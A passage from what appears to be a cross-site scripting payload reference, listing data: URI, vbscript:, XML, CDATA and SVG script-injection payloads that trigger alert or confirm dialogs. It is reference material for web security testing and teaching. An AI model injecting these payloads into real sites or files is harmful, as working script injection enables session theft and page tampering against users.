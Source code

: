 ### Wrapper data

```javascript
data:text/html,<script>alert(0)</script>
data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+
<script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>
```

### Wrapper vbscript

only IE

```javascript
vbscript:msgbox("XSS")
```

## XSS in files

**NOTE:** The XML CDATA section is used here so that the JavaScript payload will not be treated as XML markup.

```xml
<name>
  <value><![CDATA[<script>confirm(document.domain)</script>]]></value>
</name>
```

### XSS in XML

```xml
<html>
<head></head>
<body>
<something:script xmlns:something="http://www.w3.org/1999/xhtml">alert(1)</something:script>
</body>
</html>
```

### XSS in SVG

Simple script. Codename: green triangle

```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
  <script type="text/javascript">
    alert(document.domain);
  </script>
</svg>
```

More comprehensive payload with svg tag attribute, desc script, foreignObject script, foreignObject iframe, title script, animatetransform event and simple script. Codename: red ligthning. Author: noraj.
